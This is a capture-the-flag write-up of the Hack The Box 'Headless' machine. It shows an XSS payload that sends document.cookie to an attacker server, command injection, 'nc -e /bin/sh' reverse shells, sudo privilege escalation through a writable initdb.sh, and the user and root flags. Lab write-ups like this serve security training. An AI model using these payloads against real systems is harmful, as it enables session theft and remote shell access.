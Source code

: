```yaml
---
layout: post
title: "Headless"
description: "Headless is an Easy rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 5000 10.129.53.93
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-03-23 15:13 EDT
Nmap scan report for 10.129.53.93
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 23 Mar 2024 19:13:59 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|_    box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 22.01 seconds                                
```


### Enumerate HTTP (Port 5000)

![Pasted image 20240715111852.png](/images/Pasted image 20240715111852.png){: .normal }


Found subdirectory using Dirsearch.
```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u <http://10.129.53.93:5000>
  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                      

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_10.129.53.93_5000/_24-03-23_15-20-17.txt

Target: <http://10.129.53.93:5000/>

[15:20:17] Starting:                                                                                                                                         
[15:24:37] 401 -  317B  - /dashboard                                        
[15:27:25] 200 -    2KB - /support                                           
   
Task Completed 
```

Cookie value:
```bash
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
# Base64 decoded --> "user".uAlmXlTvm8vyihjNaPDWnvB_Zfs
```

Using an XSS payload in the contact form.
![Pasted image 20240715111838.png](/images/Pasted image 20240715111838.png){: .normal }


Authorized cookie found using XSS in the user agent.
```bash
# Save request in burp (set user agent to FUZZ)

ffuf -ic -c -of csv  -request-proto http -request support.req -w xss.txt
# Payload: <img src=x onerror=fetch('<http://ip/'+document.cookie>);>
```

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80                                                                 
Serving HTTP on 0.0.0.0 port 80 (<http://0.0.0.0:80/>) ...
10.129.185.190 - - [24/Mar/2024 03:01:30] code 404, message File not found
10.129.185.190 - - [24/Mar/2024 03:01:30] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

We now have access to the dashboard.
![Pasted image 20240715111831.png](/images/Pasted image 20240715111831.png){: .normal }


Command injection is possible when we intercept the request.
![Pasted image 20240715111827.png](/images/Pasted image 20240715111827.png){: .normal }


Reverse shell payload:
```bash
nc -e /bin/sh 10.10.14.26 443
```

Shell as dvir.
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.53.93] 40440
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

User flag: `93952774a10ce25343527204aab9f377`
```bash
cat user.txt 
93952774a10ce25343527204aab9f377
```


## Privilege Escalation

Sudo -l output:
```bash
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Looks like the syscheck binary executes initdb.sh.
```bash
strings /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
exit 0
```

Create the [initdb.sh](http://initdb.sh) script.
```bash
touch initdb.sh
chmod +x initdb.sh
echo "nc -e /bin/sh 10.10.14.26 443" > initdb.sh 
```

Now we can execute the syscheck binary with sudo.
```bash
sudo syscheck
```

Shell as root:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.129.53.93] 44638
id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `62bd5afddfd8de3d2f63a9163da53f45`
```bash
cat root.txt
62bd5afddfd8de3d2f63a9163da53f45
```